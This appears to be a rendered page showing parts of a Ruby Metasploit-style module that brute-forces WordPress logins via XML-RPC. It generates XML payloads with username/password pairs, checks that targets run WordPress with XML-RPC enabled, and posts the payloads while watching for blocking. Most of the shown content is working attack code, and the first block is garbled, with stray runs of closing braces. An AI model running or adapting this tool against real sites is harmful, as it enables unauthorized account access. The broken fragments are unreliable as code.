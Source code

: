 ```ruby
              xml.data {
                xml.value { xml.string(user) }
                xml.value { xml.string(pass) }
          }}}}}}}}}
        end

          }}}}}}
      end

      xml_payloads << document.to_xml
    end

    vprint_status('Generating XMLs just done.')
    xml_payloads
  end
```

- [x] Check if target is running WordPress 
- [x] Check if target enabling RPC

```ruby
  #
  # Check target status
  #
  def check_wpstatus
    print_status("Checking #{peer} status!")

    if !wordpress_and_online?
      print_error("#{peer}:#{rport}#{target_uri} does not appear to be running WordPress or you got blocked! (Do Manual Check)")
      nil
    elsif !wordpress_xmlrpc_enabled?
      print_error("#{peer}:#{rport}#{wordpress_url_xmlrpc} does not enable XML-RPC")
      nil
    else
      print_status("Target #{peer} is running WordPress")
      true
    end

  end
```

- [x] Setup the HTTP with XML POST request

```ruby
  #
  # Connection Setup
  #
  def send(xml)
    uri  = target_uri.path
    opts =
      {
        'method'  => 'POST',
        'uri'     => normalize_uri(uri, wordpress_url_xmlrpc),
        'data'    => xml,
        'ctype'   =>'text/xml'
      }
    client = Rex::Proto::Http::Client.new(rhost)
    client.connect
    req  = client.request_cgi(opts)
    res  = client.send_recv(req)

    if res && res.code != 200
      print_error('It seems you got blocked!')
```